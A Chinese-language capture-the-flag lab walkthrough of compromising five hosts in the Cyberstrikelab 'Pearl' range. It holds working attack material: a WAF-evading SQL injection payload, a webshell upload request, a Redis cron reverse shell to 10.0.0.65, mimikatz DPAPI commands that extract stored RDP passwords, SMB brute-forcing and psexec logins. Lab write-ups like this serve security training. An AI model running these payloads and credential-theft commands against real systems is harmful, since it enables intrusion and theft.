Cyberstrikelab Pearl Writeup
Cyberstrikelab Pearl Writeup
第一台主机
192.168.10.65/172.32.50.22
信息收集
对 192.168.10.* 网段进行扫描，发现 10.65 搭建了 lmxcms
发现后台
 
前台 SQL 注入
lxmcms 前台存在 SQL 注入漏洞，Payload
/?m=Tags&name='1 and updatexml(0,concat(0x7e,user()),1)#不过有安全狗

编码两次绕过
/?m=Tags&name=%25%33%31%25%32%37%25%36%31%25%36%45%25%36%34%25%32%30%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%44%25%36%43%25%32%38%25%33%30%25%32%43%25%36%33%25%36%46%25%36%45%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%43%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%43%25%33%31%25%32%39%25%32%33lxmcms 框架的用户表在 lmx_user 中
弱口令登录
admin/admin123
文件上传
lmxcms 后台还存在任意文件读取及上传，BypassGodzilla 生成木马并上传，成功
POST /admin.php?m=template&a=editfile&dir=../ HTTP/1.1
Host: 192.168.10.65
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.10.65/admin.php?m=login&a=login
Connection: keep-alive
Cookie: PHPSESSID=rduiirbr0tici1ik9mqlbg87b6
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 6670
settemcontent=1&filename=a1.php&temcontent=payload_urlencode
哥斯拉连接

tasklist /svc 查看进程，果然是安全狗
掩日免杀上线 CS，再利用烂土豆提权至 SYSTEM

拿到 Flag

写入 Hacker 用户登录远程桌面，卸载安全狗

第二台主机
192.168.10.42 这台机器只有一个 MySQL，最开始打不进去，跟着 WriteUp 试了弱口令，也进不去，向官方请教了提示

MYSQL 身份认证绕过
CVE-2012-2122
当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库漏洞编号
影响范围: 所有的Mariadb和mysql版本 5.1.61、5.0.11、5.3.5、5.5.22
修复建议：升级至 MySQL 5.1.63, 5.5.24, 5.6.6查询 MYSQL 版本

MSF 漏洞探测成功，返回了 root 的密码 hash
root:*EF27403ED856431514CDD22192ED742D2D18167A
hash 解不开，直接利用命令行弹不回来，又卡住… 暂时理智放弃

第三台主机
172.32.50.33/10.0.0.65
RDP 远程桌面凭证获取
在 192.168.10.65/172.32.50.33 主机 C 盘底下发现了 .rdp 远程桌面配置文件，远程 IP 为 172.32.50.33，是该网段的另一台内网主机，尝试直接连接，显示需要密码。
通过服务登录远程桌面时，会在本地生成一个凭证文件，破解这个凭证里面的数据可以获得里面的明文密码
查看本地用户是否存有RDP密码文件
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\
//一般存储的位置就是这两个路径
工具选用 mimikatz，对凭证文件进行解密，并记录下guidMasterKey的值
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712" exit
根据guidMasterKey，找到对应的 Masterkey
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > 1.txt
通过 MasterKey，解密 pbData 数据，获取 RDP 连接明文密码
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712 /masterkey:d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38" exit
UserName : WIN-BVAJO3C2D90\Administrator
CredentialBlob : Lmxcms@cslab!利用 C 盘下的远程连接免密登录 172.32.50.33
这里有个坑点：我先通过攻击机远程登录 192.168.10.65 Hacker 自建用户，然后通过凭证在攻击机的远程桌面登录 WIN-BVAJO3C2D90\Administrator ，再在第二个远程里点击 C 盘下的远程连接，发现仍然需要提供密码
正确的步骤是通过凭证直接远程桌面登录 WIN-BVAJO3C2D90\Administrator，再连接就是免密登录
可能是因为 Win 默认只允许一个远程桌面存在？
拿到第三台主机 Flag
关闭 Defender
172.32.50.33主机内网存在另一张网卡 10.0.0.65，使用 Stowaway 或 iox 等工具搭建内网隧道，fscan 扫描
admin123，且对 /var/spool/cron 目录拥有写入权限，这是一个用于存储定时计划任务文件的目录
第四台主机
10.0.0.56
Redis 计划任务反弹 Shell
使用代理连接， info 看看信息，查到了系统版本
config set dir /var/spool/cron/
config set dbfilename root
set shell "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/10.0.0.65/30001 0>&1\n\n"
save
上传 nc 监听，等待
成功接收到了反弹 shell，权限为 root，拿到第四台主机 Flag
查看网卡，这是一台单网卡主机，没有更深的内网了，返回了返回了

主从复制
https://github.com/0671/RabR
Redis 的另一种打法，在 10.0.0.65 主机安装 python ，上传 RabR，该 exp 不需要任何外部库
python redis-attack.py -r 10.0.0.56 -L 10.0.0.65 -b
第五台主机
10.0.0.23
fscan 扫描
这台主机没有 Web 服务，没有暴露出的漏洞，读一下本地凭证文件，发现有

那就再破解一遍
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\E8B27029CEB02525493CC6576845F257" exit
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > 1.txt
mimikatz.exe "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\E8B27029CEB02525493CC6576845F257 /masterkey:24938860521d5396a1b71f08ac643319589c94044e9cf1fcb24c9199fc9c5b354fc1072338f76076c1a005ff15b029ddb75d7f6f2625d5bb4ee7417a9212bcff"
UserName : WIN-QVNDHCLPR7Q\Administrator
CredentialBlob : cyberstrike@202410.0.0.23 压根没开放 3389，本地登录也显示凭据无效.
SMB 爆破
提示是 密码qwe开头，爆破密码
rockyou 没有爆破出来密码
proxychains4 -q hydra -l Administrator -P passwords.txt smb://10.0.0.23 -V
最后参考别的师傅 WriteUp，找了其他弱口令字典爆破

远程连接
proxychains4 -q python3 psexec.py 'administrator:qwe!@#123@10.0.0.23' -codec gbk
最后的 FLag